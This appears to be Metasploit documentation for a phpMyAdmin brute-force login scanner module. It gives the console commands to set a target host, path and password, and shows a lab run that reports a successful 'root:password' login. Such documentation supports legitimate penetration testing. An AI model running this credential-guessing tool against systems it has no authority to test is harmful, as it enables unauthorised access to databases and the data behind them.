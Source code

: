 
## Vulnerable Application

  This module is a brute-force login scanner for PhpMyAdmin 

## Verification Steps

  1. Start msfconsole
  2. Do: ```use [auxiliary/scanner/http/phpmyadmin_login]```
  3. Do: ```set RHOSTS [IP]```
  4. Do: ```set TARGETURI [URI]```
  5. Do: ```set PASSWORD [PASSWORD]```
  6. Do: ```run```
  7. You should get a successful login status

## Scenarios

### Tested on PhpMyAdmin Versions 4.0.10.20, 4.5.0, 4.8.1, 4.8.2, 5.0

  ```
  msf5 > use auxiliary/scanner/http/phpmyadmin_login
  msf5 auxiliary(scanner/http/phpmyadmin_login) > set rhosts 192.168.37.151
  rhosts => 192.168.37.151
  msf5 auxiliary(scanner/http/phpmyadmin_login) > set targeturi phpmyadmin-4.8.2/index.php
  targeturi => phpmyadmin-4.8.2/index.php
  msf5 auxiliary(scanner/http/phpmyadmin_login) > set password password
  password => password
  msf5 auxiliary(scanner/http/phpmyadmin_login) > run

  [*] PhpMyAdmin Version: 4.8.2
  [+] 192.168.37.151:80 - Success: 'root:password'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/http/phpmyadmin_login) > 

  ```
